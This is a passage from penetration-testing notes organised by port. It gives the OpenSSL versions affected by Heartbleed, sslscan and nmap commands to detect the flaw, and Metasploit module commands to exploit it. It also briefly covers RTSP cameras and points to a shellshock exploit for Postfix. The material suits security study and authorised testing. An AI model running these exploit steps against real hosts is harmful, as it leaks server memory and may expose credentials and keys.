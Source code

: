 OpenSSL 1.0.1 through 1.0.1f \(inclusive\) are vulnerable  
OpenSSL 1.0.1g is NOT vulnerable  
OpenSSL 1.0.0 branch is NOT vulnerable  
OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)

We can do that the following way.

```
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```
nmap -sV --script=ssl-heartbleed 192.168.101.8
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

```
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

Now you have a flow of random data, some of it might be of interest to you.

### CRIME

### Breach

### Certificate

Read the certificate.

* Does it include names that might be useful?
* Correct vhost

# Port 554 - RTSP

RTSP \(Real Time Streaming Protocol\) is a stateful protocol built on top of tcp usually used for streaming images. Many commercial IP-cameras are running on this port. They often have a GUI interface, so look out for that.

## Port 587 - Submission

Outgoing smtp-port

If Postfix is run on it it could be vunerable to shellshock  
[https://www.exploit-db.com/exploits/34896/](https://www.exploit-db.com/exploits/34896/)
